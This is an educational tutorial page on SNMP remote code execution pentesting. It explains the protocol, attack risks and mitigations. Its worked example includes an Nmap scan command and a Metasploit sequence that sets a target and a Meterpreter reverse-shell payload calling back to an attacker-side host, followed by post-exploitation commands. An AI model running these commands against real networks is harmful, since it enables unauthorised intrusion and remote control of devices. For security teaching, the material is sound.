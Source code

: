 # SNMP RCE pentesting


# 👉 Overview

---

### 👀 What ?

Simple Network Management Protocol (SNMP) Remote Code Execution (RCE) pentesting is a technique that involves exploiting vulnerabilities in SNMP - a protocol used for managing devices in IP networks - to execute arbitrary code remotely.


### 🧐 Why ?

SNMP RCE pentesting is important because it helps identify vulnerabilities that could be exploited by attackers to gain unauthorized access to a system, disrupt network operations, or steal sensitive data. Understanding how to carry out SNMP RCE pentesting can be a valuable skill for cybersecurity professionals, as it can help in assessing the security of a network and developing strategies to strengthen it.


### ⛏️ How ?

To conduct SNMP RCE pentesting, you would typically start by scanning the network to identify devices that use SNMP. You can use tools like Nmap for this. Once you've identified potential targets, you can then use a tool like Metasploit to exploit known vulnerabilities and execute code remotely. However, it's crucial to only carry out such tests on networks that you have permission to do so to avoid legal consequences.


### ⏳ When ?

SNMP RCE pentesting became more prevalent as the use of SNMP in networking devices increased. This is because a successful SNMP RCE attack can give an attacker full control over a device, making it a high-risk vulnerability.


# ⚙️ Technical Explanations

---

SNMP, or Simple Network Management Protocol, is a standard protocol used to communicate with devices on a network. It operates at the Application Layer of the Internet Protocol Suite, which allows it to interact with different network devices, regardless of their hardware type or the network architecture they're a part of.

SNMP is primarily used for managing and monitoring network devices. Network administrators use it to keep an eye on network performance, find and solve issues, and plan for network growth.

However, due to its widespread use and powerful functionality, SNMP can become a target for cyber attackers. Specifically, vulnerabilities can arise in how the SNMP service processes incoming requests. For instance, the service might have a buffer overflow vulnerability where it doesn't properly limit or check the size of the incoming data. This could allow an attacker to send a specially crafted request that overflows the buffer and injects malicious code into the system.

This is where SNMP Remote Code Execution (RCE) comes into play. An attacker who successfully exploits these vulnerabilities can execute arbitrary code on the targeted system. Typically, this code runs with the same privileges as the SNMP service itself. Depending on the permissions associated with the SNMP service, this could give the attacker significant control over the system.

Once an attacker has executed code on a system, they can perform a wide range of malicious activities. This includes stealing sensitive data, disrupting network operations, or distributing malware across the network. To mitigate these risks, it's vital to regularly test and patch SNMP services for any known vulnerabilities and to employ strong security measures, such as using secure versions of SNMP, enabling authentication, and restricting SNMP access to trusted hosts only.

Let's consider a real but hypothetical example for educational purposes. Suppose you are a network administrator responsible for an IP network consisting of various devices. You have been given the task to perform SNMP RCE pentesting to identify potential vulnerabilities. Here are the steps you might follow:

1. **Network Scanning**: First, you need to identify the devices in your network that use SNMP. You can use a tool like Nmap for this purpose. An example command might be `nmap -p 161 --script snmp-info 192.168.1.0/24`, where `p 161` specifies the SNMP port, `-script snmp-info` runs the SNMP info script, and `192.168.1.0/24` specifies the range of IP addresses to scan.
2. **Identifying Vulnerabilities**: After identifying the potential targets, you need to identify the vulnerabilities. For this, you can use a tool like Nessus or OpenVAS. These tools have databases of known vulnerabilities and can scan your devices to see if they are susceptible.
3. **Exploiting Vulnerabilities**: Once you've identified a system with a known vulnerability, you can attempt to exploit it using a tool like Metasploit. For example, consider that you found an SNMP service with a buffer overflow vulnerability. Metasploit might have an exploit available for this vulnerability. An example command could look like this: `msfconsole`, `use exploit/windows/snmp/snmpset`, `set RHOSTS 192.168.1.5`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 192.168.1.10`, `run`. Each command is setting up the exploit, specifying the target, specifying the payload (the code to be executed), specifying the local host (the system running Metasploit), and triggering the exploit.
4. **Post-Exploitation**: After successful exploitation, the attacker has control over the system. They can now execute arbitrary code. A command could be as simple as `getuid` to get the user ID of the account the code is running under, or `ipconfig` to get the network configuration of the system.
5. **Mitigation**: Once you've identified the vulnerabilities and understand how they can be exploited, you can work on patching these vulnerabilities and strengthening your network's security. This might involve updating to a more secure version of SNMP, enabling authentication, and restricting SNMP access to trusted hosts.

Remember, this example is for educational purposes only. Always ensure you have the necessary permissions before conducting any pentesting activities.
